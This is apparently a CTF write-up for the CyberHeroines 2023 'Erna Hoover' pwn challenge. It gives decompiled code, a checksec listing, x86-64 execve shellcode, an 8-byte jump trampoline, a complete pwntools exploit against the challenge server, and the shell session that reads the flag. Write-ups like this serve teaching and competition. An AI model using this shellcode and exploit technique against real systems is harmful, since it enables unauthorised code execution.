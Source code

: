 # CyberHeroines 2023

## Erna Hoover

> [Erna Schneider Hoover](https://en.wikipedia.org/wiki/Erna_Schneider_Hoover) (born June 19, 1926) is an American mathematician notable for inventing a computerized telephone switching method which "revolutionized modern communication". It prevented system overloads by monitoring call center traffic and prioritizing tasks on phone switching systems to enable more robust service during peak calling times. At Bell Laboratories where she worked for over 32 years, Hoover was described as an important pioneer for women in the field of computer technology. - [Wikipedia Entry](https://en.wikipedia.org/wiki/Erna_Schneider_Hoover)
> 
> Chal: Get your best shellcode going at `0.cloud.chals.io 28184` for this [inventor who developed the system for handling telephone traffic overload](https://ncwit.org/article/2023-pioneer-in-tech-award-recipient-erna-schneider-hoover/).
>
>  Author: [TJ](https://www.tjoconnor.org/)
>
> [`chal.bin`](chal.bin)

Tags: _pwn_

## Solution
We get a binary to exploit for this challenge. Lets see what's in it?

```c
undefined8 main(void)
{
  size_t sVar1;
  char local_58 [64];
  ssize_t local_18;
  code *local_10;
  
  logo();
  printf("\x1b[38;5;161m Enter Username >>> ");
  fgets(local_58,0x32,stdin);
  sVar1 = strcspn(local_58,"\n");
  local_58[sVar1] = '\0';
  printf("\x1b[38;5;161m Greetings, %s! You get 8 bytes of shellcode >>> \n",local_58);
  local_10 = (code *)mmap((void *)0x88880000,0x1000,7,0x32,-1,0);
  local_18 = read(0,local_10,8);
  (*local_10)();
  return 0;
}
```

We can enter `50` bytes as a username. There is no overflow here, since the buffer is at least `64` bytes long. After this we can enter `8` more bytes which are then written to executable memory and run. As the comment states, we have 8 bytes of shellcode we can use. Thats not a lot, but lets see what we can do.

Checking the binary with `checksec` we see that basialy all security measurements are disabled. But the best thing for us here is that stack memory is executable. Knowing this we have a lot more space to inject shellcode as our username. The *actual* 8 bytes of shellcode need only to jump to the username buffer, that's doable in 8 bytes.

```bash
$ checksec ./chal.bin
[*] '/home/ctf/chal.bin'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

To get shell we can for instance use [`this shellcode`](https://shell-storm.org/shellcode/files/shellcode-806.html)

```asm
  xor eax, eax
  mov rbx, 0xFF978CD091969DD1
  neg rbx
  push rbx
  push rsp
  pop rdi
  cdq
  push rdx
  push rdi
  push rsp
  pop rsi
  mov al, 0x3b
  syscall
```

Having this on the stack we only need to know where to jump to. When inspecting with `Ghidra` or `gdb` we see the buffer is `120` bytes from `rsp` when the trampoline shellcode is executed (before the call `buffer address - rsp = 112` bytes plus 8 bytes return address for the call to our shellcode). So we can use `rsp` as reference to jump to our buffer.

```
  add rsp, 120
  jmp rsp
```

The full exploit then looks something like this:

```
from pwn import *

#context.log_level = "DEBUG"
context.arch = "amd64"

#p = process("./chal.bin")
p = remote("0.cloud.chals.io", 28184)

payload1 = asm('''
    xor eax, eax
    mov rbx, 0xFF978CD091969DD1
    neg rbx
    push rbx
    push rsp
    pop rdi
    cdq
    push rdx
    push rdi
    push rsp
    pop rsi
    mov al, 0x3b
    syscall
''')

payload2 = asm('''
        add rsp, 120
        jmp rsp
''')

p.sendline(payload1)
p.sendlineafter(b"shellcode >>> \n", payload2)
p.interactive()
```

Running this gives us shell on the remote machine and we can just cat the flag.

```bash
$ python solve.py
[+] Opening connection to 0.cloud.chals.io on port 28184: Done
[*] Switching to interactive mode
$ ls
-
banner_fail
bin
boot
chal
dev
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
pwndbg
root
run
sbin
service.conf
srv
sys
tmp
usr
var
wrapper
$ cat flag.txt
chctf{r3volutioniz3d_moD3rn_coMMunicat10ns}$
```

Flag `chctf{r3volutioniz3d_moD3rn_coMMunicat10ns}`
